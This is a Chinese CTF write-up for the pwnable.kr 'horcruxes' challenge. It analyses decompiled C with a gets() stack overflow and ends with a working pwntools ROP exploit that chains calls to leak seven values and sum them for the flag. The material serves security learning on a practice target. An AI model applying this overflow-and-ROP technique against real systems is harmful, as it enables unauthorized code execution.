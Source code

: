 ```yaml
---
title: kr_horcruxes
date: 2020-02-05 20:16:55
tags:
- pwn
- pwnable.kr
---
```


# pwnable.kr horcruxes

### 0x1 分析

看一下安全性：

<img src="https://i.loli.net/2020/02/05/yxpg1LhjCoVS3vd.png" style="zoom:67%;" />

没有开canary，但是栈上的数据无法执行，地址是固定的。

看一下函数列表：

<img src="https://i.loli.net/2020/02/05/b6UIQpsjEO7J8AX.png" style="zoom:50%;" />

有点乱。先看`main`吧。

`main`:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // ST1C_4

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  alarm(0x3Cu);
  hint();
  init_ABCDEFG();
  v3 = seccomp_init(0);									//沙箱机制
  seccomp_rule_add(v3, 2147418112, 173, 0);
  seccomp_rule_add(v3, 2147418112, 5, 0);
  seccomp_rule_add(v3, 2147418112, 3, 0);
  seccomp_rule_add(v3, 2147418112, 4, 0);
  seccomp_rule_add(v3, 2147418112, 252, 0);
  seccomp_load(v3);
  return ropme();
}
```

按照逻辑，来转到`init_ABCDEFG();`函数：

```c
unsigned int init_ABCDEFG()
{
  int v0; // eax
  unsigned int result; // eax
  unsigned int buf; // [esp+8h] [ebp-10h]
  int fd; // [esp+Ch] [ebp-Ch]

  fd = open("/dev/urandom", 0);
  if ( read(fd, &buf, 4u) != 4 )
  {
    puts("/dev/urandom error");
    exit(0);
  }
  close(fd);
  srand(buf);
  a = -559038737 * rand() % 0xCAFEBABE;
  b = -559038737 * rand() % 0xCAFEBABE;
  c = -559038737 * rand() % 0xCAFEBABE;
  d = -559038737 * rand() % 0xCAFEBABE;
  e = -559038737 * rand() % 0xCAFEBABE;
  f = -559038737 * rand() % 0xCAFEBABE;
  v0 = rand();
  g = -559038737 * v0 % 0xCAFEBABE;
  result = f + e + d + c + b + a + -559038737 * v0 % 0xCAFEBABE;
  sum = result;
  return result;
}
```

这里给了几个变量的值包括`a b c d e f g sum`。

沙箱函数暂且不关注。跳过。

到了`ropme()`函数:

```c
int ropme()
{
  char s[100]; // [esp+4h] [ebp-74h]
  int v2; // [esp+68h] [ebp-10h]
  int fd; // [esp+6Ch] [ebp-Ch]

  printf("Select Menu:");
  __isoc99_scanf("%d", &v2);
  getchar();
  if ( v2 == a )
  {
    A();
  }
  else if ( v2 == b )
  {
    B();
  }
  else if ( v2 == c )
  {
    C();
  }
  else if ( v2 == d )
  {
    D();
  }
  else if ( v2 == e )
  {
    E();
  }
  else if ( v2 == f )
  {
    F();
  }
  else if ( v2 == g )
  {
    G();
  }
  else
  {
    printf("How many EXP did you earned? : ");
    gets(s);
    if ( atoi(s) == sum )
    {
      fd = open("flag", 0);
      s[read(fd, s, 0x64u)] = 0;
      puts(s);
      close(fd);
      exit(0);
    }
    puts("You'd better get more experience to kill Voldemort");
  }
  return 0;
}
```

看到了栈溢出最爱的`gets`函数。所以。这里已经形成了思路：

- 思路一：

  构造ROP的`payload`来跳过判断语句里，也就是`fd = open("flag", 0);`，进而可以输出`flag`。

  **但是，发现不行。原因在于：**

  **`0xa`会被`gets`当作输入结束的信号(回车)，并且把`0xa`替换成`0x00`(\0)，最终导致没办法直接返回到`ropme()`函数中去。**

- 思路二：

  那么我们就算`sum`。然后通过判断，输出`flag`。

我们看一下上面那几个函数：`A();`之类的。

`printf("You found \"Tom Riddle's Diary\" (EXP +%d)\n", a);`

看来可以输出这个的值，我们知道`sum`也是由这几个值来计算的。

`result = f + e + d + c + b + a + g`

 `sum = result;`

那么。我们通过ROP依次跳转到这几个函数，然后计算`sum`。再回到`ropme`。拿到`flag`。

### 0x2 EXP

```python
#!/usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *
context.log_level = 'debug'
s = ssh(user='horcruxes', host='pwnable.kr', port=2222, password='guest')
p = s.connect_remote('localhost', 9032)

p.sendlineafter('Select Menu:', '8')
payload = 0x74*'a' + p32(0)
payload += p32(0x809fe4b)  #依次是各个函数的地址
payload += p32(0x809fe6a)  
payload += p32(0x809fe89)  
payload += p32(0x809fea8)  
payload += p32(0x809fec7)  
payload += p32(0x809fee6)  
payload += p32(0x809ff05)  
payload += p32(0x809fffc)  # main函数里的 call ropme
p.sendlineafter('How many EXP did you earned? :', payload)
p.recvline() 
sum = 0
for i in range(7): 
    s = p.recvline()
    n = int(s.strip('\n').split('+')[1][:-1])
    sum += n
print "Result: " + str(sum)
p.sendlineafter('Select Menu:', '8')
p.sendlineafter('How many EXP did you earned? :', '%d'%(sum))
p.interactive()
```



